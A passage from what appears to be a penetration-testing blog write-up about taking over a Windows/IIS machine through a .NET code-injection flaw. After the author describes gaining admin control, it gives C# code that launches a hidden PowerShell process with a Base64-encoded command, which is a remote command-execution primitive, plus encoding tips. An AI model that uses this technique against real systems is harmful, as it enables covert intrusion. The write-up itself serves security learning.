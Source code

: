 The first `net users` shows no sign of us, but after stopping and starting the service we suddenly **own** this machine! What a great feeling.


### An Outsider's Perspective {#an-outsider-s-perspective}

While having pwned the machine, there's still an 🐘 in the room: Obtaining the necessary information about the environment (directory permissions, running services etc.) from the outside.

All of the above examples rely on libraries that are already in scope in some way. They may have been imported directly by the code that handles our query. Or they come as part of the [Base Class Library](https://docs.microsoft.com/en-us/dotnet/standard/glossary#bcl). We had to specify the `global` namespace to get a hold of some, but others are simply _not_ present. Most notably we cannot spawn our own processes, for which we need `System.Diagnostics.Process`.

To work around this issue, we're again going to compile our own library with the necessary imports and functionality. Only this time we won't drop any files!

The idea is to provide a generic function that simply spawns a `PowerShell` process with a command of our choosing:

```C { linenos=true, linenostart=1, hl_lines=["8"] }
using System.Diagnostics;

---snip--
public static class CommandExecution
{
    public static string Execute(string encodedCommand)
    {
        var psi = new ProcessStartInfo("powershell.exe", $@"-WindowStyle Hidden -encoded {encodedCommand}")
        {
            UseShellExecute = false,
            RedirectStandardOutput = true
        };

        var process = Process.Start(psi);

        if (process == null)
        {
            return "";
        }

        var output = process.StandardOutput.ReadToEnd();
        process.WaitForExit();
        return output;
    }
}
---snip---
```

As we can see, we create a `powershell.exe` process with some options set, capture its redirected output and return the resulting string. Line 8 is the interesting one here, because we use the `-encoded` switch. It allows us to pass a `Base64` encoded command, which saves us the headaches from dealing with quotation marks and escaped symbols. It's also pretty sneaky, right?


[^fn:1]: As opposed to [query syntax](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/linq/query-syntax-and-method-syntax-in-linq).
[^fn:2]: Here's your friendly reminder that environment variables are **not** a safe place to store secrets.
[^fn:3]: You can find more information and a pretty diagram [here](https://docs.microsoft.com/en-us/iis/get-started/introduction-to-iis/introduction-to-iis-architecture#http-request-processing-in-iis).
[^fn:4]: Again, `Microsoft` has [more](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities) information on the topic.
[^fn:5]: You should instead check out the man himself [here](https://fasterthanli.me/series/reading-files-the-hard-way).
[^fn:6]: It's not as straightforward to obtain the imports of a binary as it is on `Linux`. In the end, I simply loaded the .exe into `Ghidra` and looked at the "Symbol Tree".
[^fn:7]: At first, I've simply used the amazing [CyberChef](https://gchq.github.io/CyberChef/) to encode the command. It turns out that this will trip up `PowerShell`, as it's expecting an `Unicode` string. To make it work, we have to encode our command to `UTF-16LE` before applying the `Base64` encoding. This can be done with `CyberChef` as well. Of course it can.